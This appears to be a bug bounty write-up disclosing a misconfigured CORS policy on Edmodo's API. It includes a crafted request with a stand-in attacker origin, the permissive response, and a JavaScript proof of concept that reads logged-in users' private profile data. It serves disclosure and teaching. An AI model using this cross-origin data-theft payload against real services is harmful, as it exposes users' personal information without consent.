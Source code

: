 # 🔰 Edmodo Users Private Information Disclosure : CORS Exploitation

###### *Disclosure of Edmodo Users Private Information using mis-configured CORS exploitation*

![Edmodo Users Private Information Disclosure : CORS Exploitation](https://i.imgur.com/tyaOfps.jpg "Edmodo Users Private Information Disclosure : CORS Exploitation")

I hope you read my previous post on ["Mis-configured CORS Exploitation"](https://github.com/SuyogPalav/Bug-Bounty-Writeups/blob/main/1.%20Exploitation%20of%20Mis-configured%20Cross-%20Origin%20Resource%20Sharing%20(CORS).md).

so let's continue..


## Edmodo CORS Request:

![Edmodo Logo](https://i.imgur.com/cB3V5gM.png "Edmodo Logo")

After updating some information on edmodo, I got a URL that sends a `GET` request along with an `access token` in order to fetch the users private information.
therefore, i changed the `Origin` and confirmed that it is unsafe for CORS or not.

> **Request:**
> ```
> GET /profiles/user_id?param1=&param2=&access_token=eyJ0eXAiOiJKV1QiLC..... HTTP/1.1
> 
> Host: api.edmodo.com
> 
> User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
> 
> Accept: application/json, text/javascript, */*; q=0.01
> 
> Accept-Language: en-US,en;q=0.5
> 
> Accept-Encoding: gzip, deflate, br
> 
> Referer: https://www.edmodo.com/home
> 
> Origin: https://www.attacker.com
> 
> Connection: keep-alive
> ```

![Edmodo CORS Request](https://i.imgur.com/4n2fSJW.jpg "Edmodo CORS Request")

and the Response was,

> **Response:**
> ```
> HTTP/1.1 200 OK
> 
> Access-Control-Allow-Credentials: true
> 
> Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS, PATCH
> 
> Access-Control-Allow-Origin: https://www.attacker.com
> 
> Access-Control-Expose-Headers: Link, X-Total-Count
> 
> Access-Control-Max-Age: 1728000
> 
> Cache-Control: max-age=0, private, must-revalidate
> 
> Content-Type: application/json; charset=utf-8
> 
> Date: Tue, 08 Aug 2017 21:11:39 GMT
> 
> ETag: W/"8907834cb797c5c5c71eb4073ec1234"
> 
> Server: nginx
> 
> Strict-Transport-Security: max-age=16070400; includeSubDomains
> 
> Vary: Accept-Encoding, Origin
> 
> X-RateLimit-Limit: 1000000
> 
> X-RateLimit-Remaining: 999778
> 
> X-Request-Id: ee8aa9fc-7473-4477-913c-1504a556564e
> 
> X-Runtime: 0.203002
> 
> Content-Length: 1315
> 
> Connection: keep-alive
>
> 
>
> [JSON Data : user credentials…]
> ```

![Edmodo CORS Response](https://i.imgur.com/n3dyXfr.png "Edmodo CORS Response")

So, It was mis-configure CORS request, allowed `ACAO: https://www.attacker.com` , `ACAC: true` with `user credentials`.

also here, I noticed that `Access Tokens` are valid for a long period of time (or never expire) and with the help of this `Access Token` i can be able to get the private data of other users. 
(this was another issue, which we will discuss later in another blog)

So now we have our Vulnerable Endpoint: https://api.edmodo.com/profiles/user_id?param1=&param2=&access_token=eyJ0eXAiOiJKV1QiLC.....


## CORS Exploitation :

After creating a CORS exploitation POC, i upload it on my server.

> ```
> function cors() {
> 
> var xhttp = new XMLHttpRequest();
> 
> xhttp.onreadystatechange = function() {
> 
> if (this.readyState == 4 && this.status == 200) {
> 
> document.getElementById("demo").innerHTML = this.responseText;
> 
> }
> 
> };
> 
> xhttp.open("GET", "https://api.edmodo.com/profiles/user_id?param1=&param2=&access_token=eyJ0eXAiOiJKV1QiLC.....", true);
> 
> xhttp.withCredentials; //default:false
> 
> xhttp.send();
> 
> }
> ```


![CORS Exploitation](https://i.imgur.com/6lftD70.png "CORS Exploitation")

Once a logged-in Edmodo user clicks on the Exploit button, their personal information will be disclosed,
like : email address, secondary email address, home address, city, zip code, state, country, latitude, longitude, created date, role, about, etc..

![CORS Exploitation - Disclosed Information](https://i.imgur.com/3gESVLH.png "CORS Exploitation - Disclosed Information")

***

### Timeline:

> Aug 09, 2017 : Reported Date (CORS Exploitation)
> 
> Aug 11, 2017 : Report Triaged
> 
> Sep 24, 2017 : Reported Additional Info. [Read here](https://github.com/SuyogPalav/Bug-Bounty-Writeups/blob/main/3.%20IDOR%20%2B%20JWT%20Token%20-%20Edmodo%20All%20Users%20Private%20Information%20Disclosure.md)
> 
> Oct 12, 2017 : Bug Patched [CORS still present ; but restricted the access of getting private information]

<br>

**Happy Hunting…!!! 🔱**

<br>

**Next Post 🔰 : [IDOR + JWT Token - Edmodo All Users Private Information Disclosure](https://github.com/SuyogPalav/Bug-Bounty-Writeups/blob/main/3.%20IDOR%20%2B%20JWT%20Token%20-%20Edmodo%20All%20Users%20Private%20Information%20Disclosure.md)**
